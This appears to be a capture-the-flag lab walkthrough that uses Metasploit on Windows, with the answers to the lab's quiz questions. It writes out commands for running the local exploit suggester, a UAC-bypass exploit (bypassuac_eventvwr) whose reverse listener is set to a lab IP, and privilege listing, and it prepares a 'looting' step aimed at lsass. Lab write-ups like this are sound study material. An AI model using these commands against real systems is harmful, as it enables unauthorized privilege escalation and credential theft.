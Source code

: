 `run post/multi/recon/local_exploit_suggester`


### #6 hat is the full path (starting with exploit/) for the first returned exploit?
    
    exploit/windows/local/bypassuac_eventvwr

`ctrl + z` to background

`use exploit/windows/local/bypassuac_eventvwr`

`show options`

`set SESSION 1`


### #10 further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?
    LHOST

`set LHOST 10.9.107.197`

`run`

`getprivs`

### #14 What permission listed allows us to take ownership of files?

    SeTakeOwnershipPrivilege

SeSystemtimePrivilege

SeTakeOwnershipPrivilege

SeTimeZonePrivilege

SeUndockPrivilege

## Task 5 
## Looting

lsass - Local Security Authority Subsystem Service is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system

NT AUTHORITY\SYSTEM - used by os as a default user, this has the highest privilege 

### spoolsv.exe 

    The genuine spoolsv.exe file is a software component of Microsoft Windows Operating System by Microsoft.
    Spoolsv.exe is an executable file that runs the Print Spooler Service, a process that caches printing jobs into system memory as images as printers cannot understand fonts or decipher graphics.

### #2  What's the name of the printer service?
    spoolsv.exe
